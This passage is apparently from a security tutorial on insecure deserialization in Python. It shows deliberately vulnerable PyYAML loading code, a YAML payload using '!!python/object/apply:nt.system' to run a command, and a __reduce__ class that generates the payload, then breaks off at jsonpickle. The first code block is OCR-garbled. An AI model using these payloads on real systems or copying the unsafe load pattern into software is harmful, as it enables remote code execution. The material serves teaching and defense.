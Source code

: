 ```python
-                 ==== [ 
a :!!python/tuple ==== {a : tuple(
- b - c           ==== b, c
                  ==== )}
                  ==== ]
```

In order to serialize an arbitrary class, the `__reduce__` method must be implemented, in a similar way it was for pickle.

How does the exploitation works? Considering the following vulnerable code:

```python
import yaml

# Try to create the desert object from YAML file
with open('desert.yml') as desert_file:
    if float(yaml.__version__) <= 5.1: 
        desert = yaml.load(desert_file)
    else:
        desert = yaml.unsafe_load(desert_file)
# Try printing the desert name
print(desert['name'])
```

The careful reader may appreciate the version check before the actual call to `load`. This was done on purpose because from PyYAML >= 5.1, the `load` function was patched to avoid "function" deserialization (e.g. `os.system`, `subprocess.call`, `subprocess.check_output`). However, it may still be possible to exploit it using non function based vectors as `subprocess.Popen`. A very nice explaination on that can be found [here](https://www.exploit-db.com/docs/47655).
The main concept is the always the same: tricking the application into loading arbitrary classes/methods. In the case of PyYAML, the following payload can be used to spawn a calculator on the hosting server:

```yaml
!!python/object/apply:nt.system
- cmd /c calc
```

This simple payload can be easily created using the following code:

```python
import yaml, os

class Payload:
    def __reduce__(self):
        return (os.system, ("cmd /c calc.exe",))
    
yaml.dump(Payload())
```

**JSON**

The same vulnerability already studied in pickle can be applied to jsonpickle. As the name may suggest, the jsonpickle module is actually a json library built on top of pickle. The deserialization issue is located in the `decode()` function call, as it may be seen in the following vulnerable code snippet:
